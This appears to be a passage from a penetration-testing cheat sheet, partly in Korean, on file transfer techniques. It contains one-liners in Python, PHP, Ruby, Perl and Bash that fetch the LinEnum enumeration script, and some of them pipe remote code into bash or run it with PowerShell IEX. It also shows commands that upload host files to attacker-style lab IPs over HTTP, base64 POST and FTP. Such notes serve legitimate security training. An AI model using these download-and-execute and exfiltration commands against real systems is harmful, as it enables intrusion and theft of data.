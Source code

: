 ```
```
exec 3<>/dev/tcp/10.10.10.32/80
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
cat <&3
```

### SSH(SCP) 사용 다운로드
```scp plaintext@192.168.49.128:/root/myroot.txt .```

<br/><br/>
## Code

### Python 2 - Download
```python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'```

### Python 3 - Download
```python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'```

### PHP Download - File_get_contents()
```php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'```

### PHP Download - Fopen()
```php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'```

### PHP Download (Pipe & Bash)
```php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash```

### ruby - Download
```ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'```

### perl - Download
```perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'```

<br/><br/>
# Upload
<br/><br/>
## Windows

### PowerShell Web Upload
```python3 -m uploadserver```<br/>
```
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

### PowerShell Base64 Upload
```
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
```echo <base64> | base64 -d -w 0 > hosts```

### 업로드용 FTP 서버 생성
```python3 -m pyftpdlib --port 21 --write```<br/>
```(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')```

<br/><br/>
## Linux

### Web Upload(HTTPS)
```
python3 -m pip install --user uploadserver
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'